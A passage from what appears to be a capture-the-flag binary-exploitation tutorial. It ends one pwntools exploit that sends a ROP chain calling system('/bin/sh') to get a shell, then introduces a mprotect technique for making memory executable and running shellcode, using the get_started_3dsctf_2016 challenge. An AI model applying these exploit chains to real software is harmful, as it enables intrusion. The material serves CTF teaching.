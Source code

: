 ```python
payload_attack += p64(ret_addr)
payload_attack += p64(pop_rdi_addr)
payload_attack += p64(binsh_addr)
payload_attack += p64(system_addr)

sh.sendlineafter('Input your choice!\n', '1')
sh.sendlineafter('Input your Plaintext to be encrypted\n', payload_attack)

sh.interactive()
```

<div align=center><img src="./images/40.png"></div>

## Memory permission modification issue
### Ideas
Use the `mprotec` function to modify the permissions in the memory to be readable, writable and executable, and then write your own `shellcode` in the memory and execute the code. The prototype of the `mprotect` function is as follows:

```c++
int mprotect(void *addr, size_t len, int prot);
addr memory start address
len Modify the length of memory
prot memory permissions
```

### Example explanation
Here we use `get_started_3dsctf_2016` to demonstrate this type of question. The idea is: First, cause overflow, let the program jump to the `mprotect` function address, and then set the `mprotect` parameter. After modifying the memory to readable, writable and executable, redirecting the program to the memory address we modified, we just need to pass in `shellcode`.
